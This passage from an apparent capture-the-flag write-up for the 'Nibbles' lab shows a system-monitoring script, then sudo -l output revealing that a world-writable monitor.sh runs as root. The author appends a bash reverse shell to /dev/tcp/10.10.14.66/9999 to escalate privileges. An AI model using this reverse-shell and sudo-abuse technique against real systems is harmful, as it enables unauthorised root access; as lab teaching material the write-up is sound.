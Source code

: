 ~~~ 
# Check DNS
nameservers=$(cat /etc/resolv.conf | sed '1 d' | awk '{print $2}')
echo -e '\E[32m'"Name Servers :" $tecreset $nameservers 

# Check Logged In Users
who>/tmp/who
echo -e '\E[32m'"Logged In users :" $tecreset && cat /tmp/who 

# Check RAM and SWAP Usages
free -h | grep -v + > /tmp/ramcache
echo -e '\E[32m'"Ram Usages :" $tecreset
cat /tmp/ramcache | grep -v "Swap"
echo -e '\E[32m'"Swap Usages :" $tecreset
cat /tmp/ramcache | grep -v "Mem"

# Check Disk Usages
df -h| grep 'Filesystem\|/dev/sda*' > /tmp/diskusage
echo -e '\E[32m'"Disk Usages :" $tecreset 
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
~~~
While reading the file, I could not tell what I should use unless this file was used with a cronjob or something like that. But it was in a ZIP archive, so a cronjob wouldn't work then.
Time to move to my next step, checking if I might run something with sudo permissions. I entered the command **sudo -l** and pressed the enter key on my keyboard.
~~~
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
$ 

~~~
It looks like I can run the bash file as sudoer. So I can adjust the file with the following command: **echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.66/9999 <&1'" >>/home/nibbler/personal/stuff/monitor.sh** to add a bash reverse shell at the end of the file. If the file is executed as sudoer, a connection would been established to my netcat listener as root.
~~~
$ ls -ahlR
.:
total 12K
drwxr-xr-x 2 nibbler nibbler 4.0K Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4.0K Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4.0K May  8  2015 monitor.sh
~~~